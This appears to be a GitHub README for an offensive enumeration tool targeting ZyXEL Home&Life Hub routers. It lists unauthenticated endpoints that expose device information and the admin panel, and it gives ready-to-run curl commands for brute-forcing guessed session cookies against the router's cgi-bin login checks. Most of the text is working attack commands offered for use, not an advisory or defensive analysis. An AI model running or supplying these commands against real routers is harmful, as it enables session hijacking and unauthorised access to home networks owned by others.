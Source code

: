 # Home-Life-Hub-enumeration
![alt-text](https://github.com/n0nexist/Home-Life-Hub-enumeration/blob/main/screenshot.png?raw=true)<br><br>
Enumeration of <b>Home&amp;Life Hub</b> routers from <b><i>ZyXEL Communications Corp</b></i>.
<br>

# [BASIC ENUMERATION] Script Usage - less informations
```
python3 HomeLifeHub.py (router's ip)
```

# [IMPORTANT] Manual Enumeration - more informations
<b>Basic information</b> -> ```http://{target}/getBasicInformation```
<br>
<b>RSA public key</b> -> ```http://{target}/getRSAPublickKey```
<br>
<b>Get a preview of the admin panel</b> -> ```http://{target}/static/lang/```

# [SESSION BRUTEFORCE] Check if a session cookie is valid
```
curl -i -s -k -X $'GET' \
    -H $'Host: TARGET_IP' -H $'Accept: application/json, text/javascript, */*; q=0.01' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36' -H $'X-Requested-With: XMLHttpRequest' -H $'Referer: http://TARGET_IP/login' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'Session=PROBABLY_9_DIGITS' \
    $'http://TARGET_IP/cgi-bin/DAL?oid=login_privilege'
```
<i>This will return <b>401</b> or <b>200 + session data</b> depending if the session cookie is valid</i>.
<br><br>
<b>Alternative:</b>
```
curl -i -s -k -X $'GET' \
    -H $'Host: TARGET_IP' -H $'Accept: application/json, text/javascript, */*; q=0.01' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36' -H $'X-Requested-With: XMLHttpRequest' -H $'Referer: http://TARGET_IP/login' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'Session=PROBABLY_9_DIGITS' \
    $'http://TARGET_IP/cgi-bin/UserLoginCheck'
```
<i>This will return <b>401</b> or <b>200</b> depending if the session cookie is valid</i>.
